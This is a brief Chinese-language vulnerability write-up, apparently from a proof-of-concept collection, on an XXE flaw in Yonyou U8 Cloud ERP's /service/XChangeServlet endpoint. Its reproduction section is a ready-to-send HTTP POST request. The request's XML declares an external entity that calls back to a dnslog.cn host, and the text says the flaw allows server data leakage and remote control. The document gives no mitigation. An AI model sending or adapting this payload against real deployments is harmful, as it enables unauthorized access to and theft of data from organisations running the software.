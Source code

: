 **漏洞介绍**

用友U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统/service/XChangeServlet接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，会导致服务器数据泄露以及被远控。

**影响版本**

用友-U8-Cloud

**漏洞复现**

```YAML
POST /service/XChangeServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Length: 129
Connection: close
Content-Type: text/xml
Accept-Encoding: gzip

<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "http://jbiag2.dnslog.cn/mt">]><r><a>&xxe;</a ></r>
```

